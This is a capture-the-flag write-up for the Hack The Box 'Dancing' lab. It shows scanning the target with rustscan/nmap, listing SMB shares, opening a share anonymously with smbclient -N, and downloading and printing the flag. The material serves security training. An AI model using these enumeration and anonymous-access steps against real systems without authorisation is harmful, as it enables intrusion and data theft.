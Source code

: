 - - - 
created : 30-07-2025 

Tags : #veryeasy
- - - 
# Objective

Learn how to start.
# CONNECT

To attack the target machine, you must be on the same network.  
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.  
If you don't see an update after 2-3 minutes, refresh the page.

I will use OpenVPN, so i download the config file on HTB, go in the same directory on my PC and execute the following command :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB]
└─$ sudo openvpn starting_point_mdn0x.ovpn 
[sudo] password di mdn0x: 
```

We can start our [Vulnerable Machine](../../../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md).

Now we add the target IP to our /etc/hosts file, so we don't have to remember the [IP address](../../../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) every time :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Meow]
└─$ sudo nano /etc/hosts
```

We add a line with the given IP and a name .
# Task 1

What does the 3-letter acronym SMB stand for?

```bash
 Server Message Block
```
# Task 2

What port does SMB use to operate at?

```bash
 445
```
# Task 3

What is the service name for port 445 that came up in our Nmap scan?
## Rustscan/Nmap

We can use [Rustscan](../../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ rustscan -a dancing.htb -- -A  

Open 10.129.69.166:135
Open 10.129.69.166:139
Open 10.129.69.166:445
Open 10.129.69.166:5985
Open 10.129.69.166:47001
Open 10.129.69.166:49664
Open 10.129.69.166:49665
Open 10.129.69.166:49666
Open 10.129.69.166:49668
Open 10.129.69.166:49667
Open 10.129.69.166:49669

PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

The answer is **microsoft-ds**.
# Task 4

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

```bash
 -L
```
# Task 5

How many shares are there on Dancing?
## SMBclient

Let's check, we can use [SMBclient](../../../../3%20-%20Tags/Hacking%20Tools/SMBclient.md) to connect :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ smbclient -L 10.129.69.166
Password for [WORKGROUP\mdn0x]: (no passwd/enter)

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.69.166 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
# Task 6

What is the name of the share we are able to access in the end with a blank password?

```bash
 WorkShares
```
# Task 7

What is the command we can use within the SMB shell to download the files we find? `get`

Let's use the `-N` flag to access the directory like this :

```
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ smbclient  //10.129.69.166/WorkShares -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1753002 blocks available
```

Now we can download the files with **get** :

```bash
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1752981 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0,0 KiloBytes/sec) (average 0,0 KiloBytes/sec)
```
# Submit Flag

Submit root flag

Now we exit with `quit` or `ctrl + C` and `cat` the flag :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ ls
flag.txt  worknotes.txt
                                      
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664 
```
